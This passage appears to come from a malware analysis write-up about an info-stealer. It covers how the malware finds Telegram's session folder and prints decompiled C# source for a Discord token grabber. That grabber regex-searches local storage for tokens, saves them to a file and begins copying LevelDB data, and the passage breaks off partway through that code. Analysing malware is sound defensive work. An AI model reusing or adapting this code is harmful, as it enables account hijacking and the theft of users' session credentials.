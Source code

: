 ### **SearchPathTelegram**

- First checks the obvious place: `Variables.roamingappdata\Telegram Desktop\tdata`.
- If that’s missing, tries to find the Telegram shortcut and reconstruct the `tdata` path from it.
- If it figures it out, returns the path. If not, just returns "Not Found!".

# Stage 7: Grabber Discord Session

```csharp
using System;
using System.Collections.Generic;
using System.IO;
using System.Text.RegularExpressions;
using Helpers;
using Main;

namespace Messengers
{
	// Token: 0x02000004 RID: 4
	internal class Discord
	{
		// Token: 0x06000008 RID: 8 RVA: 0x00002534 File Offset: 0x00000734
		public static void GrabberDiscordToken()
		{
			try
			{
				bool flag = Directory.Exists(Variables.workdir + "\\Grabbers\\Discord");
				if (flag)
				{
					Directory.Delete(Variables.workdir + "\\Grabbers\\Discord", true);
				}
				string text = Variables.workdir + "\\Grabbers\\Discord";
				string[] array = Discord.GetTokens(Discord.TokenRegexs[0]);
				bool flag2 = array.Length == 0;
				if (flag2)
				{
					array = Discord.GetTokens(Discord.TokenRegexs[1]);
					bool flag3 = array.Length == 0;
					if (flag3)
					{
						array = Discord.GetTokens(Discord.TokenRegexs[2]);
					}
				}
				bool flag4 = array.Length != 0;
				if (flag4)
				{
					Directory.CreateDirectory(text);
					foreach (string text2 in array)
					{
						File.AppendAllText(text + "\\Tokens.txt", text2 + "\n");
					}
				}
				Discord.CopyLevelDb();
			}
			catch (Exception ex)
			{
				Console.WriteLine(ex);
			}
		}

		// Token: 0x06000009 RID: 9 RVA: 0x00002634 File Offset: 0x00000834
		private static void CopyLevelDb()
		{
```